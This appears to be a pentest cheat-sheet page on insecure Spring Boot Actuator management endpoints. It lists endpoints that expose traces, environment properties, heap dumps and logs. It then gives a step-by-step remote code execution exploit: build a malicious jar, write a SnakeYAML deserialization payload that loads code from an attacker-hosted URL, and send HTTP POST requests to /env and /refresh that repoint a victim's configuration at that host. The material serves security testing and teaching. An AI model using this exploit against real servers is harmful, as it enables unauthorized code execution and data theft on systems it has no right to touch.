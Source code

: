 # Insecure Management Interface

## Springboot-Actuator

Actuator endpoints let you monitor and interact with your application. 
Spring Boot includes a number of built-in endpoints and lets you add your own. 
For example, the `/health` endpoint provides basic application health information. 

Some of them contains sensitive info such as :

- `/trace` - Displays trace information (by default the last 100 HTTP requests with headers).
- `/env` - Displays the current environment properties (from Spring’s ConfigurableEnvironment).
- `/heapdump` - Builds and returns a heap dump from the JVM used by our application.
- `/dump` - Displays a dump of threads (including a stack trace).
- `/logfile` - Outputs the contents of the log file.
- `/mappings` - Shows all of the MVC controller mappings.

These endpoints are enabled by default in Springboot 1.X.
Note: Sensitive endpoints will require a username/password when they are accessed over HTTP.

Since Springboot 2.X only `/health` and `/info` are enabled by default.

### Remote Code Execution via `/env`

Spring is able to load external configurations in the YAML format.
The YAML config is parsed with the SnakeYAML library, which is susceptible to deserialization attacks.
In other words, an attacker can gain remote code execution by loading a malicious config file.

#### Steps

1. Generate a payload of SnakeYAML deserialization gadget.

- Build malicious jar
```bash
git clone https://github.com/artsploit/yaml-payload.git
cd yaml-payload
# Edit the payload before executing the last commands (see below)
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```

- Edit src/artsploit/AwesomeScriptEngineFactory.java

```java
public AwesomeScriptEngineFactory() {
    try {
        Runtime.getRuntime().exec("ping rce.poc.attacker.example"); // COMMAND HERE
    } catch (IOException e) {
        e.printStackTrace();
    }
}
```

- Create a malicious yaml config (yaml-payload.yml)

```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://attacker.example/yaml-payload.jar"]
  ]]
]
```


2. Host the malicious files on your server.

- yaml-payload.jar
- yaml-payload.yml


3. Change `spring.cloud.bootstrap.location` to your server.

```
POST /env HTTP/1.1
Host: victim.example:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
 
spring.cloud.bootstrap.location=http://attacker.example/yaml-payload.yml
```

4. Reload the configuration.

```
POST /refresh HTTP/1.1
Host: victim.example:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

## References

* [Springboot - Official Documentation](https://docs.spring.io/spring-boot/docs/current/reference/html/production-ready-endpoints.html)
* [Exploiting Spring Boot Actuators - Veracode](https://www.veracode.com/blog/research/exploiting-spring-boot-actuators)
